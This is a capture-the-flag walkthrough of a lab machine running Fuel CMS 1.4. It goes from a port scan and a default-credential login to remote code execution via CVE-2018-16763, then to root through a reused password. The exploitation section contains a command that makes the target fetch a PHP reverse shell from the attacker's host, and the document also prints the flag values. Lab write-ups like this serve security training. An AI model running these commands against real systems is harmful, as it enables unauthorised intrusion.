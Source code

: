 # ENUMERATION
---



## OPEN PORTS
---

| PORT | SERVICE |
| :--- | :------ |
| 80 | HTTP |

```
PORT STATE SERVICE REASON VERSION
80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# RECONNAISSANCE
---


We only got a website, let's check it out:



![Pasted image 20250409164857.png](../../IMAGES/Pasted%20image%2020250409164857.png)

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:


![Pasted image 20250409164943.png](../../IMAGES/Pasted%20image%2020250409164943.png)


We got a `/fuel` directory:



![Pasted image 20250409165010.png](../../IMAGES/Pasted%20image%2020250409165010.png)

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![Pasted image 20250409165238.png](../../IMAGES/Pasted%20image%2020250409165238.png)

Maybe default credentials still work, let's try:

![Pasted image 20250409165313.png](../../IMAGES/Pasted%20image%2020250409165313.png)

There we go, default credentials work, let's proceed to exploitation phase.



# EXPLOITATION
---


Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:


![Pasted image 20250409165623.png](../../IMAGES/Pasted%20image%2020250409165623.png)

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```


Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![Pasted image 20250409165739.png](../../IMAGES/Pasted%20image%2020250409165739.png)

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this: 

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![Pasted image 20250409171154.png](../../IMAGES/Pasted%20image%2020250409171154.png)

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![Pasted image 20250409171256.png](../../IMAGES/Pasted%20image%2020250409171256.png)



# PRIVILEGE ESCALATION
---


First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250409171335.png](../../IMAGES/Pasted%20image%2020250409171335.png)

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:


![Pasted image 20250409172944.png](../../IMAGES/Pasted%20image%2020250409172944.png)

We got a password, let's switch to root:

![Pasted image 20250409173005.png](../../IMAGES/Pasted%20image%2020250409173005.png)

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


![Pasted image 20250409173046.png](../../IMAGES/Pasted%20image%2020250409173046.png)



